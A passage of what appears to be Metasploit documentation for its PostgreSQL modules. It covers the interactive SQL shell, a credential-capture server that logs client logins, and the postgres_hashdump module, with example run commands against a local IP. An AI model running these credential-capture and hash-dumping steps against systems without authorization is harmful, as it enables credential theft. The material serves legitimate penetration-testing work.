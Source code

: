 Alternatively you can enter a SQL prompt via the `query_interactive` command which supports multiline commands:
```msf
postgresql @ 127.0.0.1:5432 (template1) > query_interactive -h
Usage: query_interactive

Go into an interactive SQL shell where SQL queries can be executed.
To exit, type 'exit', 'quit', 'end' or 'stop'.

postgresql @ 127.0.0.1:5432 (template1) > query_interactive
[*] Starting interactive SQL shell for postgresql @ 127.0.0.1:5432 (template1)
[*] SQL commands ending with ; will be executed on the remote server. Use the exit command to exit.

SQL >> SELECT table_name
SQL *>   FROM information_schema.tables
SQL *>  LIMIT 2;
[*] Executing query: SELECT table_name FROM information_schema.tables LIMIT 2;
[*] SELECT 2

Response
========

    #  table_name
    -  ----------
    0  pg_statistic
    1  pg_type

SQL >>
```

### PostgreSQL Capture Server
Captures and log PostgreSQL credentials:
```
use auxiliary/server/capture/postgresql
run
```

For example, if a client connects with:
```
psql postgres://postgres:mysecretpassword@localhost:5432
```

Metasploit's output will be:
```msf
msf6 auxiliary(server/capture/postgresql) >
[*] Started service listener on 0.0.0.0:5432
[*] Server started.
[+] PostgreSQL LOGIN 127.0.0.1:60406 postgres / mysecretpassword / postgres
```

### PostgreSQL Dumping
User and hash dump:
```
use auxiliary/scanner/postgres/postgres_hashdump
run postgres://postgres:password@192.168.123.13
run postgres://postgres:password@192.168.123.13/database_name
```
